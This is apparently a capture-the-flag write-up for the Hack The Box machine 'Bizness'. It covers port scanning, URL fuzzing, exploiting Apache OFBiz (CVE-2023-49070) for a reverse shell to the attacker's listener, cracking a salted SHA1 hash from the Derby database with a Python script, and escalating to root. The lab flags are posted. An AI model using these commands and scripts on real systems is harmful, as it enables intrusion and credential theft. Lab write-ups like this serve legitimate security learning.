

*Nmap scan*:

```shell
$ cat nmap_allports.txt                                                
# Nmap 7.94SVN scan initiated Fri Feb  2 12:06:40 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.252
Nmap scan report for 10.10.11.252
Host is up (0.037s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
40885/tcp open  unknown
```

```shell
$ cat nmap_servicesversions.txt 
# Nmap 7.94SVN scan initiated Fri Feb  2 12:07:30 2024 as: nmap -p22,80,443,40885, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.252
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.036s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  ssl/http   nginx 1.18.0
| tls-alpn: 
|_  http/1.1
|_http-favicon: Unknown favicon MD5: 7CF35F0B3566DB84C7260F0CC357D0B8
|_ssl-date: TLS randomness does not represent time
|_http-trane-info: Problem with XML parsing of /evox/about
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Issuer: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-14T20:03:40
| Not valid after:  2328-11-10T20:03:40
| MD5:   b182:2fdb:92b0:2036:6b98:8850:b66e:da27
|_SHA-1: 8138:8595:4343:f40f:937b:cc82:23af:9052:3f5d:eb50
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_http-server-header: nginx/1.18.0
40885/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The webapp on port 80 does a redirect to "bizness.htb" domain; it is added to the hosts file.


Fuzzing of VHOSTs does not bring results. By fuzzing the URL instead, results are obtained.

```shell
$ wfuzz -u $URL/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --hc 404 --hh 0
[...]
Target: https://bizness.htb/FUZZ
Total requests: 4723

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000001255:   200        491 L    1596 W     34632 Ch    "control"                                                                                                                                                                   
000002197:   200        522 L    1736 W     27200 Ch    "index.html"
```


The path "/control" looks interesting.


A response with status code 500 with "Apache OFBiz" is returned. Via Google it turns out that a critical vulnerability was recently identified for Apache OFBiz.


The vulnerability allows RCE to be executed without authentication. An exploit is available at: [https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass).

RCE correctly verified.


Previous exploit did not work to get a shell. The following exploit was used: [https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC). 

In addition, it was also necessary to make the version of Java installed on the machine compatible with that of the exploit.

```shell
$ java --version 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 17.0.9 2023-10-17
OpenJDK Runtime Environment (build 17.0.9+9-Debian-2)
OpenJDK 64-Bit Server VM (build 17.0.9+9-Debian-2, mixed mode, sharing)
$ sudo apt install openjdk-11-jdk
[...]
$ update-java-alternatives -l
java-1.11.0-openjdk-amd64      1111       /usr/lib/jvm/java-1.11.0-openjdk-amd64
java-1.17.0-openjdk-amd64      1711       /usr/lib/jvm/java-1.17.0-openjdk-amd64
$ sudo update-java-alternatives -s java-1.11.0-openjdk-amd64
```

After making the Java version compatible, the exploit was executed.

```shell
$ python3 exploit.py https://bizness.htb shell 10.10.14.5:80
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Not Sure Worked or not
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 80
        inet 10.10.14.5  netmask 255.255.254.0  destination 10.10.14.5
        inet6 fe80::2ff7:a3dc:22fb:53d  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1003  prefixlen 64  scopeid 0x0<global>
listening on [any] 80 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.252] 40158
bash: cannot set terminal process group (737): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$ id
id
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
```

A shell with user "ofbiz" was correctly obtained.

***user.txt***: 317449b13b402076ad23c4426abc53f5


At this point, after hours stuck I take a look at the official forum for a hint. Regarding privesc there is a reference to a database. It is inferred from [https://cwiki.apache.org/confluence/display/OFBIZ/Apache+OFBiz+Technical+Production+Setup+Guide](https://cwiki.apache.org/confluence/display/OFBIZ/Apache+OFBiz+Technical+Production+Setup+Guide) that OfBiz uses a database called Derby. Some files are identified.

```shell
ofbiz@bizness:/opt/ofbiz$ find . | grep derby
./runtime/data/derby.properties
./runtime/data/derby
./runtime/data/derby/ofbiz
./runtime/data/derby/ofbiz/service.properties
./runtime/data/derby/ofbiz/seg0
./runtime/data/derby/ofbiz/seg0/c10001.dat
./runtime/data/derby/ofbiz/seg0/c7161.dat
./runtime/data/derby/ofbiz/seg0/c12fe1.dat
./runtime/data/derby/ofbiz/seg0/cf4f1.dat
./runtime/data/derby/ofbiz/seg0/cc3f1.dat
./runtime/data/derby/ofbiz/seg0/cc581.dat
./runtime/data/derby/ofbiz/seg0/c11601.dat
./runtime/data/derby/ofbiz/seg0/c9151.dat
./runtime/data/derby/ofbiz/seg0/c101.dat
./runtime/data/derby/ofbiz/seg0/cebd1.dat
[...]
```

Attempts are made to locate any passwords.


Numerous .dat files are present and it appears that some contain the word "password". A hash of a password is identified.



File that contains the hash is c54d0.dat.


Hash, specifically `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`, is saved in a file. It's JTR time. Unfortunately, hash does not seem to be recognized by JTR.

Taking a look at the forum again, it seems that a custom script that can do the hash cracking needs to be coded. Let's start by gathering the necessary information:
- from [https://user.ofbiz.apache.narkive.com/Vwy7qKD5/please-guide-me-to-retrive-decrypted-password-from-database-which-is-stored-in-encrypted-format](https://user.ofbiz.apache.narkive.com/Vwy7qKD5/please-guide-me-to-retrive-decrypted-password-from-database-which-is-stored-in-encrypted-format), it turns out that the passwords in the Derby database are hashed with SHA1
- from [https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java), source code of OfBiz responsible for checking the password hash was identified. It was noted that the Java functions involved are:
	- comparePassword
	- doComparePosix
	- getCryptedBytes

A Python script was then coded that, given a wordlist, would calculate the hash of the input and compare it with the one identified in the previous steps.

To complete, also, from [https://stackoverflow.com/questions/4492426/remove-trailing-when-base64-encoding](https://stackoverflow.com/questions/4492426/remove-trailing-when-base64-encoding) it would appear that the Java function encodeBase64URLSafeString would not add the "=" character as padding. Therefore, the last character in the Python implementation should be removed. The final Python script is as follows.

```python
import hashlib
import base64
import sys

hash = "$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I"

def toHashed(crypted):
    typeEnd = crypted.index('$', 1)
    saltEnd = crypted.index('$', typeEnd + 1)

    salt = crypted[typeEnd+1:saltEnd]
    hashed = crypted[saltEnd+1:]

    return hashed, salt

def getCryptedBytes(salt, bytes_password):
    m = hashlib.sha1()
    m.update(bytearray(salt.encode()))
    m.update(bytes_password)

    encoded = base64.urlsafe_b64encode(m.digest()).decode().replace('+', '.')
    encoded = encoded[:-1]
    #print(encoded)
    return encoded

def main():
    hashed, salt = toHashed(hash)
    with open(file='/usr/share/wordlists/rockyou.txt', errors='replace', mode='r') as rockyou:
        for word in rockyou:
            word = word.replace('\n', '')
            cryptedBytes = getCryptedBytes(salt, bytearray(word.encode()))
            if hashed == cryptedBytes:
                print(f"Password found: {word}")
                sys.exit(0)

if __name__ == "__main__":
    main()
```

The script worked and the hash was cracked. The password is: "monkeybizness".


All that remains is to see if "monkeybizness" is equivalent to the root password.

```shell
ofbiz@bizness:/opt/ofbiz/runtime/data$ su root
Password: monkeybizness
id
uid=0(root) gid=0(root) groups=0(root)
```

Simply root.

***proof.txt***: 8b8c1b72ffde50ebce07b055c128e642


